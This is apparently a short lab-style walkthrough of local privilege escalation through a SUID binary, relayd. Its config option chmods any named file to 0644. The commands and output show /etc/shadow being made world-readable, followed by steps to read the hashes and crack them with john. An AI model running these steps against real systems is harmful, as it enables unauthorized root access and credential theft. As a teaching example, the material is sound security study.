 # Example

In this example we will see how SUID enabled application can be exploited to get advantage and gain some foothold.

Let's have a look at the help menu of relayd.

```bash
    /usr/sbin/relayd --help
    Usage: relayd [options] [actions]
    Actions:
    default action      start daemon
    -h                  show this help message
    -v                  show version info
    -k                  kill running daemon
    -s                  get running status
    -U                  hup (reload configs)
    -a [service]        add service for relay
    -r [service]        remove service for relay
    -i                  get real client ip
    -b [up|down]        broadcast the DS boot state
    -R                  reopen the log file
    Options:
    -C [file]           read config from file
    -d                  enable debug mode. will not run in background
    -P [file]           set pid file for daemon
    -g [ip]             remote source ip
    -n [port]           remote source port
``` 

```
    $ touch temp
    touch temp

    $ /usr/sbin/relayd -C temp
    /usr/sbin/relayd -C temp
    [ERR] 2022-03-10 00:34:00 config.cpp:1539 write
    [ERR] 2022-03-10 00:34:00 config.cpp:1213 open failed [/usr/etc/relayd/misc.conf.tmp.12217]
    [ERR] 2022-03-10 00:34:00 config.cpp:1189 bad json format [temp]
    [ERR] 2022-03-10 00:34:00 invalid config file
```
File permission changed^^


Validate
```
    $ strace /usr/sbin/relayd -C tempfile
    ...
    ...
    fchmodat(AT_FDCWD, "tempfile", 0644)    = 0
    ...
    ...
```

Since the binary has the SUID bit set, we can abuse this misconfiguration to modify file permissions and read /etc/shadow.

```$ /usr/sbin/relayd -C /etc/shadow

[ERR] 2022-03-10 00:39:08 config.cpp:1539 write
[ERR] 2022-03-10 00:39:08 config.cpp:1213 open failed [/usr/etc/relayd/misc.conf.tmp.12217]
[ERR] 2022-03-10 00:39:08 config.cpp:1189 bad json format [/etc/shadow]
[ERR] 2022-03-10 00:39:08 invalid config file

$ ls -l /etc/shadow
ls -l /etc/shadow
-rw-r--r-- 1 root shadow 940 Jan 10 23:25 /etc/shadow
```

Now we can use further tools/techniques.

1. Read passwd & shadow
1. Crack password [using john]
